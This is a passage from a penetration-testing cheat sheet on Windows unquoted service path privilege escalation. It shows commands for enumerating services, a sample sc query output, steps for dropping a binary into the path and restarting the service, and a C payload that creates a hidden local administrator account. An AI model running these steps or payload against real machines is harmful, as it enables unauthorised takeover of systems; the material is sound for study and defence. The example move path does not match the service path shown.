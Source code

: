 It gives an attacker the ability to inject malicious binary into path to be executed with vulnerable service permissions if she has enough privileges to write into one of these directories:

```
PS > Get-Acl -Path "C:\Program Files\Vulnerable Service\" | fl
```

List services and their binary path:

```
PS > wmic service get name, pathname
```

Query `VulnerableSvc`:

```
Cmd > sc qc VulnerableSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnerableSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Vulnerable Service\Vuln Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Exploit `VulnerableSvc`:

```
Cmd > move pwn.exe "C:\Program Files\Sub Directory\Vuln.exe"
Cmd > sc stop VulnerableSvc
Cmd > sc start VulnerableSvc
...Or reboot the PC if the attacker has SeShutdownPrivilege...
Cmd > shutdown /r /t 0
```

Malious binary example:

{% code title="pwn.c" %}
```c
// i686-w64-mingw32-gcc -o pwn.exe pwn.c

#include <stdio.h>
#include <stdlib.h>

void main() {
        system("net user snovvcrash Passw0rd! /add");
        system("net localgroup administrators snovvcrash /add");
}
```
{% endcode %}

